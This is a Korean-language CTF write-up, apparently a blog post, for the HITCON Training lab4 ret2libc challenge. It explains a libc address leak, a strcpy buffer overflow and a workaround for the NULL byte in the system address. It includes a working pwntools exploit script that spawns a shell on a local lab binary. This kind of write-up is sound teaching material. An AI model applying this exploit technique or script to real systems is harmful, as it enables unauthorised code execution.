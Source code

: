 ```yaml
---
layout: post
title: "[HITCON Training] lab4"
comments : true
category : War Game
---
```


# 문제
***


해당 바이너리는 read를 통해 입력 받은 주소에 저장되어 있는 값을 출력한다. 

-> 이를 통해서 ASLR이 걸려 있는 바이너리의 libc base address를 알 수 있다.

그 다음 read 함수와 strcpy를 호출하는데 이를 통해서 bof를 발생시킬 수 있다.

NX가 enabled 되어 있기 때문에 return to library 공격을 시도했다. 그런데 Ubuntu 18.04의 경우 leak한 system 주소의 마지막 바이트에 NULL이 들어간다. ( ASLR에 의해서 중간에 있는 2byte 주소가 랜덤화된다.) 

system 함수는 대략 아래와 같이 생겼다,

```
<+0> sub esp, 0xc
<+3> mov eax, DWORD PTR [esp+0x10]
<+7> call 0xf7f1437d <__x86.get_pc_thunk.dx>
...
...
call 0xf7e19ce0 <do_system>
```

=> system 함수는 eax에 인자를 넣어주고 do_system 함수를 호출한다. 

system 함수 주소의 NULL 바이트 값으로 인해서 strcpy가 중간에 끊기는 것을 막기 위해서 system 함수의 주소 대신에 system+3 주소 값을 넣어주고 esp+0x10에 "/bin/sh"의 주소가 위치하게 payload를 구성한다. 

또는 system 함수의 주소 대신 system - 특정 값을 넣어주면 된다. 하지만 이 경우에는 system - 특정 값에 위치한 명령어들이 제대로 실행될 수 있는 환경을 갖추고 있어야 한다. (e.x) system - 2 에 mov al, [eax]가 있으면 eax에 있는 값이 readable한 주소여야한다.)

다른 방법으로는 payload를 get(bss) + do_system로 구성하고 bss에 "/bin/sh" 넣어주는 방법도 있다. (get의 return 값은 인자값이므로 eax에 bss의 주소가 들어간다. 그리고 bss 영역은 ASLR이 걸려있지 않아 주소가 변경되지 않는다.)

c.f)
=> __x86.get_pc_thunk.dx는 아래와 같이 구성되어 있다. 
```
mov edx, DWORD PTR [esp]
ret
```

위 코드를 통해서 다음에 수행할 명령어의 위치를 알아낼 수 있다. (PIE, ASLR에서 사용됨)


# 풀이
***
```
#!/usr/bin/python

from pwn import *

file_path="/home/sungyun/HITCON-Training/LAB/lab4/ret2lib"

puts_got=0x0804a01c
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

p=process(file_path)


p.recvuntil("(in dec) :")
p.send(str(puts_got))
p.recvuntil("address : ")
puts=p.recv(10)

libc_base=int(puts,16)-libc.symbols['puts']
system=libc_base+libc.symbols['system']
sh=libc_base+list(libc.search('/bin/sh\x00'))[0]

data=p.recvuntil(":")

pay="A"*0x3c
pay+=p32(system+3)  # system_addr_contains_NULL
pay+="AAAA"*4
pay+=p32(sh)

p.send(pay)

p.interactive()
```
